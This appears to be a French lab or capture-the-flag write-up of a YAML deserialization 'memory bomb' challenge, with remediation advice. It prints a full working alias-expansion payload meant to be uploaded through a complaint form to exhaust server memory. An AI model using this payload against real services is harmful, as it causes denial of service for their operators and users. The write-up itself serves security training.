


# **Insecure Deserialization-5-Memory Bomb**

## 1. Méthodologie

**Étape 1 – Créer un fichier YAML malveillant**

- Faire un fichier .yml avec une structure spéciale qui utilise des ancres et des alias YAML. Ces éléments permettent de créer une "bombe mémoire" en causant une expansion très rapide des données.

**Étape 2 – Contenu du fichier**

- Utiliser cette structure pour construire une chaîne où chaque niveau répète le précédent de nombreuses fois :
  ```
  a: &a [_,_,_,_,_,_,_,_,_,_,_,_,_,_,_]
  b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a,*a]
  c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b,*b]
  d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c,*c]
  e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d,*d]
  f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e,*e]
  g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f,*f]
  h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g,*g]
  i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h,*h]
  j: &j [*i,*i,*i,*i,*i,*i,*i,*i,*i,*i]
  k: &k [*j,*j,*j,*j,*j,*j,*j,*j,*j,*j]
  l: &l [*k,*k,*k,*k,*k,*k,*k,*k,*k,*k]
  ```
- Cette structure agit comme une bombe parce que chaque niveau copie le précédent plusieurs fois, ce qui fait grossir les données énormément quand le programme lit le fichier YAML.

**Étape 3 – Téléverser via le système de plainte**

- Envoyer le fichier .yml malveillant par le système de réclamation (complaint) pour activer la faille.

**Étape 4 – Validation**

- Le défi est réussi quand la bombe mémoire se déclenche, utilisant trop de mémoire et causant un arrêt du système.

## Techniques utilisées :

- Attaque de désérialisation YAML
- Déni de service (DoS)

## Outils utilisés :

- Éditeur de texte pour faire le fichier YAML

---

## 2. Vulnérabilités

**Vulnérabilité :**

- Vulnérabilité de désérialisation YAML
- Déni de service

**Composant affecté :**

- Système de téléversement de fichiers YAML via complaint

**Sévérité :**

- **Élevée**

---

## 3. Risques

- Utilisation excessive de la mémoire, ce qui peut causer un déni de service ou un plantage du système.

-Business impact: user trust loss, reputational damage.

---

## 4. Actions

**Réduction des risques**

- Désactiver le traitement des alias dans les fichiers YAML téléversés.

**Correction**

- Employer des bibliothèques de lecture YAML sécurisées, ou limiter la taille des fichiers et la complexité des structures.

**Bonnes pratiques**

- OWASP : Désérialisation de données non fiables.

---

## 5. Preuves

**Structure YAML de la bombe mémoire**


